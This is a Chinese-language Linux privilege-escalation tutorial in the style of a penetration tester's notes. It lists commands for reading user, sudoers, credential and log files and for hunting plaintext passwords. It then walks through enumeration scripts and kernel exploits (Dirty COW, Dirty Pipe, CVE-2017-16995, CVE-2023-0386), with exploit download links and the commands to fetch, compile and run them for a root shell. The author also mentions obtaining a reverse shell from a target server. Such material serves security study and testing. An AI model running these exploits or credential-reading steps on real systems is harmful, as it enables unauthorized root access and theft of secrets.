## 0x01 基础信息收集

在进行Linux系统提权之前首先需要先对系统进行信息收集。

## 1.1 内核、操作系统、设备信息等

通过下列命令，可以判断主机在域中的信息、内核信息、系统信息，便于通过这些信息搜索一些用于提权的内核漏洞。

```bash
uname -a    ##打印所有可用的系统信息
uname -r    ##内核版本
uname -n    ##系统主机名。
uname -m    ##查看系统内核架构（64位/32位）
hostname    ##系统主机名
cat /proc/version    ##内核信息
cat /etc/*-release   ##分发信息
cat /etc/issue       ##分发信息
cat /proc/cpuinfo    ##CPU信息
cat /etc/lsb-release   ##Debian 
cat /etc/redhat-release  ##Redhat
ls /boot | grep vmlinuz-
```

## 1.2  用户信息

通过查询相关的用户信息也能够在为提权上做出相关的参考。

```bash
cat /etc/passwd     ##列出系统上的所有用户
cat /var/mail/root
cat /var/spool/mail/root
cat /etc/group      ##列出系统上的所有组
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}'      ##列出所有的超级用户账户
whoami                 ##查看当前用户
w                      ##谁目前已登录，他们正在做什么
last                   ##最后登录用户的列表
lastlog                ##所有用户上次登录的信息
lastlog –u %username%  ##有关指定用户上次登录的信息
lastlog |grep -v "Never"  ##以前登录用户的完
```

## 1.3 用户权限信息

```shell
whoami            ##当前用户名
id                ##当前用户信息
cat /etc/sudoers  ##谁被允许以root身份执行
sudo -l           ##当前用户可以以root身份执行操作
```

## 1.4 环境信息

```shell
env        ##显示环境变量
set        ##现实环境变量
echo %PATH ######路径信息
history    ####显示当前用户的历史命令记录
pwd        ##输出工作目录
cat /etc/profile   ##显示默认系统变量
cat /etc/shells    ##显示可用的shellrc
cat /etc/bashrc
cat ~/.bash_profile
cat ~/.bashrc
cat ~/.bash_logout
```

## 1.5 进程与服务

```bash
ps aux
ps -ef top
cat /etc/services
top
```

## 1.6 安装的软件

这里通过使用下列命令，能够知道安装了哪些程序、什么版本、是否在运行等信息。

```bash
ls -alh /usr/bin/
ls -alh /sbin/
ls -alh /var/cache/yum/
dpkg -l
```

## 1.7 服务与插件

服务设置是否配置错误，是否附有（脆弱的）插件。

```
cat /etc/syslog.conf
cat /etc/chttp.conf
cat /etc/lighttpd.conf
cat /etc/cups/cupsd.conf
cat /etc/inetd.conf
cat /etc/apache2/apache2.conf
cat /etc/my.conf
cat /etc/httpd/conf/httpd.conf
cat /opt/lampp/etc/httpd.conf
ls -aRl /etc/ | awk '$1 ~ /^.*r.*/
```

## 1.8 计划任务

```
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
```

## 1.9 是否有存放明文密码

```
grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find , -name "*.php" -print0 | xargs -0 grep -i -n "var $password"
```

## 1.10 查看与主机通信信息

```
lsof -i
lsof -i :80
grep 80 /etc/services
netstat -anptl
netstat -antup
netstat -antpx
netstat -tulpn
chkconfig --list
chkconfig --list | grep 3:on
last
w
```

## 1.11 日志信息

```
cat /var/log/boot.log
cat /var/log/cron
cat /var/log/syslog
cat /var/log/wtmp
cat /var/run/utmp
cat /etc/httpd/logs/access_log
cat /etc/httpd/logs/access.log
cat /etc/httpd/logs/error_log
cat /etc/httpd/logs/error.log
cat /var/log/apache2/access_log
cat /var/log/apache2/access.log
cat /var/log/apache2/error_log
cat /var/log/apache2/error.log
cat /var/log/apache/access_log
cat /var/log/apache/access.log
cat /var/log/auth.log
cat /var/log/chttp.log
cat /var/log/cups/error_log
cat /var/log/dpkg.log
cat /var/log/faillog
cat /var/log/httpd/access_log
cat /var/log/httpd/access.log
cat /var/log/httpd/error_log
cat /var/log/httpd/error.log
cat /var/log/lastlog
cat /var/log/lighttpd/access.log
cat /var/log/lighttpd/error.log
cat /var/log/lighttpd/lighttpd.access.log
cat /var/log/lighttpd/lighttpd.error.log
cat /var/log/messages
cat /var/log/secure
cat /var/log/syslog
cat /var/log/wtmp
cat /var/log/xferlog
cat /var/log/yum.log
cat /var/run/utmp
cat /var/webmin/miniserv.log
cat /var/www/logs/access_log
cat /var/www/logs/access.log
ls -alh /var/lib/dhcp3/
ls -alh /var/log/postgresql/
ls -alh /var/log/proftpd/
ls -alh /var/log/samba/

Note: auth.log, boot, btmp, daemon.log, debug, dmesg, kern.log, mail.info, mail.log, mail.warn, messages, syslog, udev, wtmp
```

# 0x02 提权辅助脚本做收集

这里使用github上的一些自动化脚本收集。

## 2.1 LinEnum

Linux枚举及权限提升检查工具，该工具除了RCE无法收集，其它的信息都能收集，主要收集：内核、发行版本、系统信息、用户信息、特权访问、环境、作业、任务、服务、web服务的版本、默认/弱口令、搜索等

下载地址：[LinEnum](https://github.com/rebootuser/LinEnum)

### 2.1.1 上传脚本

首先将文件上传至/tmp目录下，一般来说在/tmp目录下，一般是可以进行可读写可执行的。

```
chmod +x LinEnum.sh  ##添加执行权限
```



### 2.1.2 执行脚本

这里就可以执行脚本了，返回的信息很多，可以看到SUID提权用到的信息等，以及历史命令，万一找到root曾经输入过的密码呢？？？ 

```
./LinEnum.sh
```



## 2.2 Linuxprivchecker

这个同样也的对服务器上的信息进行收集，但是不像LinEnum那样有颜色进行表示，看起来不太方便，所以一般来说不太喜欢这个，但是可以对比，看看是否存在遗漏。

这个脚本是使用python进行执行的，通常Linux是会自带python环境的，如果没有就GG，所以为什么说相比LinEnum不好用，就在这里。

下载地址：[Linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)

### 2.2.1 执行脚本

这里就不在提上传脚本了，由于是使用python进行执行的，也不需要添加权限，直接进行执行。

```
python linuxprivchecker.py  ##服务器要存在python环境。
```



## 2.3 linux-exploit-suggester

这个脚本会输出内核等信息，然后输出可能存在的漏洞，包括exp的下载地址，可以下载对应的exp来测试。有橙色标签的说明更符合目标机情况。

下载脚本：[linux-exploit-suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)

### 2.3.1 执行脚本

```
chmod +x linux-exploit-suggester.sh  ##添加执行权限
./linux-exploit-suggester.sh   ##执行脚本
```



### 2.3.2 执行漏洞

在通过脚本的判断后可以通过给予的信息下载exp进行提权，这里需要注意，如果网络环境不好，可能下载exp会出现错误，如果出现这个情况，可以直接百度搜索给予的下载连接去手动下载，将下载完的exp上传上去。

这里可能会遇到下载的c语言环境的脚本，需要c语言进行编译，而服务器上可能很少会安装c语言环境，那么你可以本地进行编译，将编译完的exp再上传上去执行，不过**最好找一台同样型号的进行编译，不然会出错**，普通用户是没有下载c环境的权限，除非管理员给这个用户添加了权限，但是在实际环境中，多数都是web权限的用户，怎么会有下载权限呢？？？

c语言环境在下面的脏牛提权中提到了，这里是我后补的，我就不想改了，可以拉到下面看。

#### 2.3.2.1 下载EXP

可以看到我想说的就是这中情况，要不没有下载功能，要不由于下载的都是国外的服务器，访问容易出现问题，所以就只能手动下载了，至于下载地址，你可以仔细看每一个rce编号下面都有一个连接，那个就是下载连接。





#### 2.3.2.2. 查看EXP

这里先查看一下EXP，在EXP中都会存在编译的命令，可以使用工具打开c环境。



#### 2.3.2.3 编译EXP

在编译EXP之前需要先将文件上传上去，如果网络好，就不需要上传EXP了，然后进行编译。

```
gcc 15150.c -o 15150    ##前面15150.c是文件，后面的是自定义的编译后文件名称
```



#### 2.3.2.4 执行EXP

我这里换了几个都没有运行成功，总的来说还是需要一个一个测试的，下面的截图就是我换完后的，不过exp那么多总归可能有成功的，只是我测试了几个都没成功吧了。

```
./15150
```



## 2.4 linux-exploit-suggester-2

这个和上面的类似，只不过更精简，也更准确一点。

下载地址：[linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2)

### 2.4.1 执行脚本

这里下载完后，添加一个执行权限，然后进行执行，看下面的图片就能看出没有解释器，我这里是重装的云服务器系统，上面什么都没有，通过百度搜索，好像安装mysql也是需要这个解释器的，那么应该装数据库的服务器上应该都是有这个解释器的。如果没有可以执行命令"yum -y install perl perl-devel"进行安装。

```
chmod +x linux-exploit-suggester-2.pl  ##添加执行权限
./linux-exploit-suggester-2.pl  ##运行脚本
```


#### 2.4.1.1 执行效果

可以看出有很多漏洞，那么同样是根据下面给到的EXP下载连接去下载，然后执行即可，这里就不演示了。



## 2.5 注意

上面三个脚本，我是在windows上下载下来，然后复制到linux执行，结果都报错找不到需要的文件，或者解释器错误





这是因为：**从windows复制过去时，由于shell脚本文件是dos格式，即每一行结尾以\r\n来标识，而unix格式的文件行尾则以\n来标识**

### 解决办法：

```shell
（1）使用linux命令dos2unix filename，直接把文件转换为unix格式；再执行（kali装了dos2unix,如果没有，自己安装就是了）
（2）使用sed命令sed -i "s/\r//" filename 或者 sed -i "s/^M//" filename直接替换结尾符为unix格式；
（3）vi filename打开文件，执行 : set ff=unix 设置文件为unix，然后执行:wq，保存成unix格式。


查看脚本文件是dos格式还是unix格式的几种办法。
（1）cat -A filename
从显示结果可以判断，dos格式的文件行尾为^M$，unix格式的文件行尾为$；
（2）od -t x1 filename
如果看到输出内容中存在0d 0a的字符，那么文件是dos格式，如果只有0a，则是unix格式；
（3）vi filename打开文件，执行: set ff，如果文件为dos格式在显示为fileformat=dos，如果是unxi则显示为fileformat=unix。
```

之后就可以正常使用了



# 0x03 linux内核提权

## 3.1 SearchSploit的使用

> SearchSploit是一个**Exploit-DB**的命令行搜索工具，它还允许随身携带漏洞利用数据库的副本。
>
> 介绍：https://xz.aliyun.com/t/2860

```shell
基本使用方法如下：
1.更新SearchSploit:
apt update && apt -y full-upgrade
searchsploit -u
2.搜索语法：
searchsploit linux 2.6 ubuntu priv esc

Tip:如果你没有收到预期的结果，可以使用更通用的术语进行更广泛的搜索。如:Kernel 2.6.25 - >Kernel 2.6 / / Kernel 2.x。
Tip:不要使用缩写如:SQLi -> SQL Injection。

3.显示漏洞利用的完整路径:
-p, --path [EDB-ID]     显示漏洞利用的完整路径（如果可能，还将路径复制到剪贴板），后面跟漏洞ID号
4.不建议在本地的漏洞数据库中修改exp,建议使用-m参数复制那些有用的到当前的工作目录:
-m, --mirror [EDB-ID]   把一个exp拷贝到当前工作目录,参数后加目标id
exp利用：将exp上传到目标技巧，编译运行（编译方法，在源码的注释里有）
gcc 9545.c -o exp
chmod 777 exp
./exp
当然，以上只是非常理想的情况，我们经常会遇到没有gcc的坑爹服务器。这时我们就需要在本地编译。本地编译时不止要看exp源码注释的编译参数，也需要手动调整一下编译的参数，比如给gcc 加-m 32来编译32位。编译问题繁多，有困难找谷歌。
```

最后强调利用内核漏洞的几个**注意点**：

1.读源码注释，有exp基本信息和编译方法，不然可能连编译都不会
 2.读源码，不然费劲编译完才发现不适用
 3.读源码，不然遇到一个删全盘的”exp“怎么办

## 3.2 内核提权之脏牛(dirty cow-CVE-2016-5195)

漏洞原理：该漏洞具体为，get_user_page内核函数在处理Copy-on-Write(以下使用COW表示)的过程中，可能产出竞态条件造成COW过程被破坏，导致出现写数据到进程地址空间内只读内存区域的机会。修改su或者passwd程序就可以达到root的目的。
漏洞编号：CVE-2016-5195
漏洞名称：脏牛（Dirty COW）
漏洞危害：低权限用户利用该漏洞技术可以在全版本上实现本地提权
影响范围：3.9>Linux kernel >=2.6.22 并且Android也受影响

### 3.2.1 脏牛漏洞介绍

漏洞信息：CVE-2016-5195漏洞

影响范围：Linux 内核2.6.22 – 3.9 (x86/x64)

漏洞EXP：[脏牛EXP](https://github.com/FireFart/dirtycow)

### 3.2.2 脏牛提权操作

我这里是先让服务器反弹一个普通权限回来，然后准备使用MSF去操作的，但是出现的问题就是输入shell后很长时间进不去，可能是由于一个服务器是香港的，一个是华为云，连接上存在一点问题，我这里直接去香港服务器上操作吧。



### 3.2.2.1 查看服务器内核版本

首先需要查看以下服务器内核版本，然后去判断使用那种内核进行提权，可以看到我们获取到的是一个2.6的符合脏牛提权。



### 3.2.2.2 上传脏牛EXP

我们这里将脏牛EXP下载下来，然后上传至目标靶机上，并对其进行编译。

#### 3.2.2.2.1 注意

注意这里在Linux中编译的话必须有C语言环境，我参考了好多文章，没一个文章提到这个环境问题的，我对语言不太懂，但是WEB搭建过程中应该很少会用到C语言，同时很多服务器都是安装的都是精简模式，所以都不会带C语言环境，但是如果确实想提权，可以自己提前先编译好再上传。

下面的图片是已经按照好C语言环境的，如果没有按照只会显示"gcc:"后面就没有了。

```
whereis gcc  ##查看是否存在C语言环境
yum install gcc  ##安装C语言环境，注意在普通用户下不能安装。
```



#### 3.2.2.2.2 编译脏牛EXP

```
gcc -pthread dirty.c -o dirty -lcrypt ##编译
```



### 3.2.2.3 执行脏牛EXP

这里我们执行脏牛EXP即可，执行完成后就会获取到一个用户名为firefart，密码就是刚刚设置的。

```
./dirty  123456  ##执行，后面的123456是自定义的密码
```



### 3.2.3 登录账户

登录后，查看id，发现为root权限，即为提权成功，注意这里我使用云服务器测试完后，再次连接云服务器的时候，发现root密码被拒绝登录了，也就是root密码错误，但是我使用我设置的密码登录，依旧是错误的，这个需要注意。



### 3.2.4 利用另一个exp

https://github.com/gbonacini/CVE-2016-5195

1.下载脚本到目标机器：

```shell
git clone https://github.com/gbonacini/CVE-2016-5195.git
```

 2.编译成可执行文件

```shell
使用 g++ -Wall -PEDANTIC -O2 -std=c++11 -pthread -o dcow dcow.cpp -lutil 
或者直接输入 make 进行 
```



3.执行脚本

```shell
./dcow -s
./dcow -h
```

## 3.3 内核提权之Dirty Pipe(CVE-2022-0847)

### 3.3.1 漏洞介绍

**影响范围：**

Linux Kernel版本 >= 5.8

Linux Kernel版本 < 5.16.11 / 5.15.25 / 5.10.102

**漏洞EXP：**

```shell
https://haxx.in/files/dirtypipez.c 
#原理为 直接修改一个具有suid权限的可执行文件，然后执行这个可执行文件提权，完成提权后再把文件改回来

or
https://github.com/r1is/CVE-2022-0847
https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit
#原理为  覆盖 /etc/passwd 中的 root 密码字段并在弹出 root shell 后恢复
```

### 3.3.2 DirtyPipe提权操作(以第二个exp为例)

内核提权需要谨慎，容易让服务器崩溃或者出现其它问题。

#### 3.3.2.1 查看服务器内核

这里我使用的是kali服务器，内核版本可能有点高，所以导致不成功，可以去看看其他人的文章。

```
unam -a ##查看内核版本
```



#### 3.3.2.2 添加EXP权限

这里需要提前将EXP上传至服务器中，并且给予执行权。

```
cd /tmp  ##到tmp目录下，原因就看你之前有没有仔细看文章了
chmod +x Dirty-Pipe.sh   ##添加执行权限
```



#### 3.3.3.3 执行EXP

这里执行一下EXP，会自动跳转到root权限上，我这里未成功是由于kali的内核版本可能太高了，下面图片就是其它人执行成功的效果。

```
bash Dirty-Pipe.sh
```





## 3.4 内核提权之ubuntu内核漏洞（CVE-2017-16995 ）

**1)影响版本**

```shell
Linux Kernel Version 4.14-4.4 （主要影响Debian和Ubuntu发行版，Redhat和CentOS不受影响）
```

2)利用步骤

```shell
Linux本地内核提权 CVE-2017-16995
从网上下载exp，或者kali导出exp上传到提权主机上。
wget https://github.com/brl/grlh/archive/master.zip
编译：
gcc get-rekt-linux-hardened.c -o exp
gcc 45010.c -o 45010   编译
chmod +x 45010         增加权限
./45010                         执行脚本返回root权限shell
id
```

## 3.5 Overlay 文件系统 copy-up 本地提权漏洞（CVE-2023-0386）

**简介**：由于Linux内核的OverlayFS子系统中存在权限提升漏洞，当用户将一个具有权限的文件从一个nosuid挂载点复制到另一个挂载点时，未经身份验证的恶意攻击者可通过执行setuid文件，利用此漏洞将普通权限提升至ROOT权限。

**影响范围**：Linux 内核版本：v5.11-rc1 ~ v6.2-rc5

**exp:** https://github.com/xkaneiki/CVE-2023-0386

**利用**：

编译

```bash
make all
```

使用

启动两个终端，在第一个终端中输入

```bash
./fuse ./ovlcap/lower ./gc
```

在第二个终端输入

```bash
./exp
```

效果

提权效果


